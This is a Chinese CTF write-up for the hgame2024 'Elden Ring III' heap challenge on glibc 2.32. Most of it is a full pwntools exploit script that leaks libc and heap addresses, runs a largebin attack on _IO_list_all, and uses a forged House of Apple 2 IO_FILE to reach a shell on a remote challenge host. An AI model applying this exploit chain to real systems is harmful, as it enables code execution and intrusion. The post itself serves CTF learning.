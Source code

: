 ```yaml
---
title: hgame2024 week3 - Elden Ring III
date: 2024/2/22 19:25:00
updated: 2024/7/25 12:34:56
tags:
    - heap - largebin
    - largebin attack
    - House of Apple 2
    - libc2.32
excerpt: 本题主要通过Largebin攻击和House of Apple 2技术，利用glibc 2.32中的漏洞进行利用和提取libc及堆地址。
---
```


{% note %}
write some large notes
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.32  
反编译发现只能分配large bin，那就干脆学一下Largebin attack和House of Apple吧，
以后打高版本libc都要用到

我会在参考文献一栏列出优质的博客，没有它们，我不能做出这题！还有就是在打Apple的时候，
要想进入overflow分支，还需要伪造的IO_FILE里`_IO_write_ptr > _IO_write_base`

另，自glibc 2.38开始，调用链发生变化，`_IO_flsuh_all_lockp`已更名为`_IO_flsuh_all`，
但是apple2仍然能打，不影响

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering3')
        if lo & 2:
            gdb.attach(sh, gdbscript='b show_note')
    else:
        sh = remote('139.196.183.57', 30273)
    libc = ELF('eldering3s/libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recv(7)

    def withdraw(): # quit and exit is Python builtin functions
        sh.sendlineafter(b'>', b'5')

    # leak libc and heap
    addn(0, 0x600)
    addn(1, 0x600) # guard chunk (prevent consolidating)
    addn(2, 0x600)
    addn(3, 0x600) # guard chunk
    deln(0)        # fd is around libc in Unsorted bin
    edit(0, b'\n') # 1st char is 0, so we had to make the address leak-able
    ret = show(0)
    ret = b'\0' + ret[1:6]
    edit(0, b'\0') # restore original value
    deln(2)        # fd of chunk 2 is chunk 0
    heap = show(2)
    deln(3)
    deln(1)        # restore empty heap

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wfileJumps = libcBase + libc.symbols['_IO_wfile_jumps']

    heapBase = u64(heap[:6] + b'\0\0') - 0x290
    success(f'\x1b[33mleak heapBase: {hex(heapBase)}\x1b[0m')

    # large bin attack
    fd = bk = libcBase + dumpArena + 0x4d0
    fdNext = heapBase + 0x290 # original values
    bkNext = ioListAll - 0x20 # write chunk 1 addr on _IO_list_all
    addn(0, 0x620)
    addn(15, 0x508)           # guard chunk
    addn(1, 0x610)
    addn(14, 0x508)           # guard chunk
    deln(0)                   # now in unsorted bin
    addn(2, 0x630)            # put chunk 0 in large bin
    deln(1)                   # now in unsorted bin
    edit(0, p64(fd) + p64(bk) + p64(fdNext) + p64(bkNext))
    addn(13, 0x630)           # put chunk 1 in large bin, trigger arbitrary write

    # house of apple 2
    forceChunk = heapBase + 0xdd0 # & chunk 1.prev_size
    fakeFile = FileStructure()    # _flags = 0, _IO_read_ptr = 0x621
    fakeFile.vtable = wfileJumps
    fakeFile._IO_write_ptr = 1
    fakeFile._wide_data = forceChunk + 0xe0
    # fakeFile._lock = lock
    fakeWideData = b'\0'*0xe0 + p64(forceChunk + 0xe0 + 0xe8) # 0xe0 bytes of 0 and _wide_vtable
    oneGadget = libcBase + 0xdf54f
    fakeWfileJumpTable = b'\0'*0x68 + p64(oneGadget)          # 0x68 bytes of 0 and __do_allocate
    # note that _flags and _IO_read_ptr is filled by chunk structure,
    # so we need to exclude them to keep the correct alignment
    edit(1, bytes(fakeFile)[16:] + fakeWideData + fakeWfileJumpTable)

    withdraw()
    sh.clean()
    sh.interactive()
```

## 参考文献

1. [Largebin Attack典例](https://www.anquanke.com/post/id/244018)
2. [House of Apple 2官方示例](https://bbs.kanxue.com/thread-273832.htm)
3. [House of Apple 2实操&调用链](https://ywhkkx.github.io/2022/11/10/House%20Of%20Apple-2.34-64/)
